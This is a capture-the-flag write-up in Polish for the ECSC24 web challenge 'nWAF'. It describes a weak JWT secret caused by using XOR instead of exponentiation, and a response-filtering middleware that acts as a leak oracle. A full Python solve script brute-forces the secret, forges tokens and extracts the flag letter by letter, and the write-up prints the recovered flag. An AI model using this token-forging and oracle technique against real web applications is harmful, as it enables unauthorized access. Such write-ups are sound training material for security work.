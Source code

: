 # nWAF - web

### Vulnerability

1. Generowany secret to liczba z zakresu <125, 130> (XOR, zamiast POW):
```python
app.config["JWT_SECRET_KEY"] = random.randint(2 ^ 127, 2 ^ 128).to_bytes(16, 'big')
```

2. Middleware działa na wszystkich route'ach, nie tylko na `/flag`:
```python
@app.after_request
def waf(response: Response) -> Response:
    print(f"Response: {response.data}")
    if any([ngram in response.data for ngram in ngrams]):
        return Response(status=401)
    else:
        return response
```
 
### Solution

Znając secret jesteśmy w stanie wygenerować token z własnym username'em. Używając `/hello` i middleware'a można zgadywać flagę literka po literce w ciągach po 4 znaki.

```python
import jwt
import requests
import string

flag = ""
curr = "ecs"
secret = ""

original_token = requests.get("https://nwaf.ecsc24.hack.cert.pl/login", allow_redirects=False).cookies.get("access_token_cookie")
for i in range(2 ^ 127, 2 ^ 128 + 1):
  try:
    secret = i.to_bytes(16, 'big')
    jwt.decode(original_token, secret, algorithms=["HS256"])
    print(f"secret found: {secret=}")
    break
  except:
    continue
else:
  print("secret not found.")
  exit(1)

while not curr.endswith("}"):
  for x in "{}_" + string.digits + string.ascii_letters + "!@#$%^&*()":
    token = jwt.encode({
      "sub": curr + x,
      "exp": 2219586395,
    }, secret, algorithm="HS256")

    req = requests.get("https://nwaf.ecsc24.hack.cert.pl/hello", cookies={
      "access_token_cookie": token,
    })

    if req.status_code == 401:
      print(f"letter: {x=}, {curr=}")
      flag += curr[0]
      curr = curr[1:] + x
      break
  else:
    print("letter not found.")
    print(f"{flag=}, {curr=}")
    exit(1)

flag += curr
print(f"{flag=}")
```

```
$ python solve.py
secret=b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00~'
flag='ecsc24{mowa_jest_srebrem_a_milczenie_owiec!}'
```
